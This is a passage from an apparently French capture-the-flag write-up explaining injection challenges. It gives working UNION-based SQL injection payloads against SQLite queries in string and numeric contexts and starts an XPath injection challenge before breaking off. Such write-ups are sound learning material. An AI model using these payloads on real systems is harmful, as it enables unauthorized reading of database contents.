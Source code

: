 Le commentaire à la fin de la payload permet d'ignorer totalement la *quote* et donc de rendre le code valide.

### SQL Injection 1

On change de type de vulnérabilité avec les injections SQL.
On nous fourni cette fois le schéma de base de données avec l'instruction de lire la colonne `flag` de la table `flag` :
```SQL
CREATE TABLE users (username TEXT, password TEXT, age INTEGER);
CREATE TABLE flag (flag TEXT);
```

Et encore une fois le code (enfin la requête) dans lequel nous devons injecter :
```SQL
SELECT * FROM users WHERE username = '$INPUT'
```

Nous avons cependant quelques informations en plus :
- La payload n'est toujours pas "nettoyée"
- La DBMS est SQLite3
- La payload est normalisée en NFKC

Mais pas besoin de savoir tout cela pour trouver une payload directement :
```SQL
' UNION SELECT 1,2,flag FROM flag;
```

Et on termine par un point virgule `;` afin de terminer la requête et d'éviter les erreurs, la quote d'après étant ignorée.

### SQL Injection 2

Globalement ce challenge est exactement le même que le précédent à une seule différence : notre input n'est pas entrée en *string* (Elle n'est pas entre *quotes*) :
```SQL
SELECT * FROM users WHERE age <$INPUT
```

Nous sommes ici aussi sur une solution relativement simple :
```SQL
1 UNION SELECT 1,2,flag FROM flag
```

Et cette fois, pas besoin de commentaire ou de point virgule, la requête sera valide telle quelle.

### XPath Injection

Pour ce challenge, un petit XML nous est présenté :
```XML
<db>
  <users>
    <user>
      <name>admin</name>
      <password>FLAG</password>
    </user>
    <user>
      <name>guest</name>
      <password>123456</password>
    </user>
  </users>
</db>
```
